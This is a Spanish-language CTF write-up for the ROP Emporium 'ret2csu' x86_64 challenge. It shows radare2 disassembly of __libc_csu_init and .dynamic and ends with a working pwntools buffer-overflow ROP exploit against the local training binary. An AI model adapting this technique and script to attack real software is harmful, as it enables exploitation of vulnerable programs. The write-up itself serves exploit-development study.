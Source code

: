 # ret2csu

![2025-06-03-140650_762x319_scrot](https://github.com/user-attachments/assets/ac457a1c-a1ee-45f2-a395-3b8f4e7662bb)

## x64_64

### Analisis
En este reto debemos nuevamente llamar a  `ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`, pero ahora no contamos con muchos gadgets.

"ret2csu" es una tecnica para llenar registros cuando hay una falta de gadgets.

| *Cuando una aplicación se compila dinámicamente (compilada con libc vinculada), contiene una selección de funciones que permiten la vinculación. Estas funciones contienen una selección de gadgets que podemos usar para rellenar los registros para los que no tenemos gadgets, el más importante de los cuales es __libc_csu_init* (Fragmento extraido de [Cybersecurity Notes](https://ir0nstone.gitbook.io/notes/binexp/stack/ret2csu))

 Fragmento extraido de Cybersecurity Notes

Entonces tenemos esta funcion  "__libc_csu_init":
```
[0x00400520]> s sym.__libc_csu_init
[0x00400640]> pdf
            ; DATA XREF from entry0 @ 0x400536(r)
/ 101: sym.__libc_csu_init (int64_t arg1, int64_t arg2, int64_t arg3);
|           ; arg int64_t arg1 @ rdi
|           ; arg int64_t arg2 @ rsi
|           ; arg int64_t arg3 @ rdx
|           0x00400640      4157           push r15
|           0x00400642      4156           push r14
|           0x00400644      4989d7         mov r15, rdx                ; arg3
|           0x00400647      4155           push r13
|           0x00400649      4154           push r12
|           0x0040064b      4c8d259e07..   lea r12, obj.__frame_dummy_init_array_entry ; loc.__init_array_start
|                                                                      ; 0x600df0
|           0x00400652      55             push rbp
|           0x00400653      488d2d9e07..   lea rbp, obj.__do_global_dtors_aux_fini_array_entry ; loc.__init_array_end
|                                                                      ; 0x600df8
|           0x0040065a      53             push rbx
|           0x0040065b      4189fd         mov r13d, edi               ; arg1
|           0x0040065e      4989f6         mov r14, rsi                ; arg2
|           0x00400661      4c29e5         sub rbp, r12
|           0x00400664      4883ec08       sub rsp, 8
|           0x00400668      48c1fd03       sar rbp, 3
|           0x0040066c      e85ffeffff     call sym._init
|           0x00400671      4885ed         test rbp, rbp
|       ,=< 0x00400674      7420           je 0x400696
|       |   0x00400676      31db           xor ebx, ebx
|       |   0x00400678      0f1f840000..   nop dword [rax + rax]
|       |   ; CODE XREF from sym.__libc_csu_init @ 0x400694(x)
|      .--> 0x00400680      4c89fa         mov rdx, r15
|      :|   0x00400683      4c89f6         mov rsi, r14
|      :|   0x00400686      4489ef         mov edi, r13d
|      :|   0x00400689      41ff14dc       call qword [r12 + rbx*8]
|      :|   0x0040068d      4883c301       add rbx, 1
|      :|   0x00400691      4839dd         cmp rbp, rbx
|      `==< 0x00400694      75ea           jne 0x400680
|       |   ; CODE XREF from sym.__libc_csu_init @ 0x400674(x)
|       `-> 0x00400696      4883c408       add rsp, 8
|           0x0040069a      5b             pop rbx
|           0x0040069b      5d             pop rbp
|           0x0040069c      415c           pop r12
|           0x0040069e      415d           pop r13
|           0x004006a0      415e           pop r14
|           0x004006a2      415f           pop r15
\           0x004006a4      c3             ret
```

Hay dos gadgets relevantes. En `0x00400696` podemos hacer `pop` a 6 registros y en `0x00400680` podemos controlar `rdx`, `rsi` y la parte baja de `rdi`, `edi`.

Es la unica forma que tenemos de asignar un valor a `rdx`, pero esta remina en `call qword [r12 + rbx*8]`, que llama a lo direccion que este almacenada en la direccion "[r12 + rbx*8]".

Ademas hay un `cmp rbp, rbx` que hay que sobrepasar y al final se extraen 7 valores de la pila antes de retornar.

### ret2csu

Primero llamamos a `0x00400696` para rellenar los registros.

`r13` contendra cualquier cosa porque al final haremos un `pop_rdi` para llenar `rdi` correctamente; `r14` contendra el valor que queremos para `rsi`: "0xcafebabecafebabe"; y `r15` contendra el valor que queremos para `rdx`: "0xd00df00dd00df00d".

En cuanto al resto de los registros tenemos la seccion `.dynamic` que contiene punteros a funciones como por ejemplo `_fini` que es perfecta porque praticamente no hace nada y solo retorna:
```
[0x00400520]> s sym._fini
[0x004006b4]> pdf
            ;-- section..fini:
/ 9: sym._fini ();
| rg: 0 (vars 0, args 0)
| bp: 0 (vars 0, args 0)
| sp: 0 (vars 0, args 0)
|           0x004006b4      4883ec08       sub rsp, 8                  ; [14] -r-x section size 9 named .fini
|           0x004006b8      4883c408       add rsp, 8
\           0x004006bc      c3             ret
```

```
[0x004006b4]>  s section..dynamic
[0x00600e00]> pd 10
            ;-- section..dynamic:
            ;-- segment.DYNAMIC:
            ;-- _DYNAMIC:
            0x00600e00      .qword 0x0000000000000001                  ; [20] -rw- section size 496 named .dynamic
            0x00600e08      .qword 0x0000000000000001
            0x00600e10      .qword 0x0000000000000001
            0x00600e18      .qword 0x0000000000000038
            0x00600e20      .qword 0x000000000000001d
            0x00600e28      .qword 0x0000000000000078
            0x00600e30      .qword 0x000000000000000c
            0x00600e38      .qword 0x00000000004004d0 ; section..init ; sym._init
            0x00600e40      .qword 0x000000000000000d
            0x00600e48      .qword 0x00000000004006b4 ; section..fini ; sym._fini
```

Queremos que `[r12 + rbx*8]` contenga la direccion de `.dynamic` que apunta a esa funcion, asi que hacemos `rbx`=0 y `r12`=0x00600e48.

Finalmente hacemos `rbp`=1 para superar `cmp rbp, rbx`.

Al final la ROP chain queda asi:
- offset
- pop_6
- call_r12_rbx
- pop_rdi
- ret2win

``` python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./ret2csu")
lib = ELF("./libret2csu.so")

context.binary = elf
context.terminal = ['tmux', 'splitw', '-hp', '70']
#context.log_level = "debug"

pop_rdi =  0x004006a3   # pop rdi; ret
pop6 =  0x0040069a      # pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret
call =  0x00400680      # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword [r12 + rbx*8] ...
dynamic = 0x600e48      # segment.dynamic pointer to _fini

payload = b"A" * 40
payload += p64(pop6) 
payload += p64(0)                                                       # rbx
payload += p64(1)                                                       # rbp
payload += p64(dynamic)                                                 # r12
payload += p64(0) + p64(0xcafebabecafebabe) + p64(0xd00df00dd00df00d)   # r13, r14, r15
# call libcsu_fini
payload += p64(call)             
# trash to fill add rsp 8; pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret
payload += b"A" * 56
# call ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
payload += p64(pop_rdi) + p64(0xdeadbeefdeadbeef)
payload += p64(elf.plt.ret2win)
 
io = process("./ret2csu")
io.send(payload)
io.interactive()
```


